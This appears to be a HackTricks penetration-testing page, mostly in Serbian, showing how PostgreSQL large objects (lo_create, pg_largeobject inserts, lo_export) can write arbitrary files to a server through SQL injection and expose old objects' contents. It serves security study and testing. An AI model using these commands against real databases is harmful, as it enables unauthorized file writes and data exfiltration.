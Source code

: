 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Veliki Objekti

PostgreSQL nudi strukturu poznatu kao **veliki objekti**, dostupnu putem tabele `pg_largeobject`, koja je dizajnirana za skladištenje velikih tipova podataka, kao što su slike ili PDF dokumenti. Ovaj pristup je prednost u odnosu na funkciju `COPY TO` jer omogućava **izvoz podataka nazad u fajl sistem**, osiguravajući da se tačna replika originalnog fajla održava.

Za **skladištenje kompletnog fajla** unutar ove tabele, objekat mora biti kreiran u tabeli `pg_largeobject` (identifikovan LOID-om), nakon čega se umetnuju delovi podataka, svaki veličine 2KB, u ovaj objekat. Ključno je da ovi delovi budu tačno 2KB u veličini (sa mogućim izuzecima poslednjeg dela) kako bi se osiguralo da funkcija izvoza radi ispravno.

Da biste **podelili svoje binarne podatke** na delove od 2KB, mogu se izvršiti sledeće komande:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Za kodiranje svake datoteke u Base64 ili Hex, mogu se koristiti sledeće komande:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Важно**: При аутоматизацији овог процеса, уверите се да шаљете делове од 2KB чистог текста. Хекс кодирани фајлови ће захтевати 4KB података по делу због удвостручења величине, док фајлови кодирани у Base64 следе формулу `ceil(n / 3) * 4`.

Садржај великих објеката може се прегледати у сврху дебаговања користећи:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Koristeći `lo_creat` i Base64

Da bi se sačuvali binarni podaci, prvo se kreira LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
U situacijama koje zahtevaju preciznu kontrolu, kao što je iskorišćavanje Blind SQL Injection, `lo_create` se preferira za određivanje fiksnog LOID-a.

Podaci se mogu umetnuti na sledeći način:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Da biste eksportovali i potencijalno obrisali veliki objekat nakon upotrebe:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Koristeći `lo_import` i Hex

Funkcija `lo_import` može se koristiti za kreiranje i određivanje LOID-a za veliki objekat:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Nakon kreiranja objekta, podaci se unose po stranici, osiguravajući da svaki deo ne prelazi 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Da bi se proces završio, podaci se izvoze i veliki objekat se briše:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

Napomena je da **veliki objekti mogu imati ACL-ove** (Liste Kontrole Pristupa), što može ograničiti pristup čak i objektima koje je kreirao vaš korisnik. Međutim, stariji objekti sa permisivnim ACL-ovima mogu i dalje biti dostupni za ekfiltraciju sadržaja.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
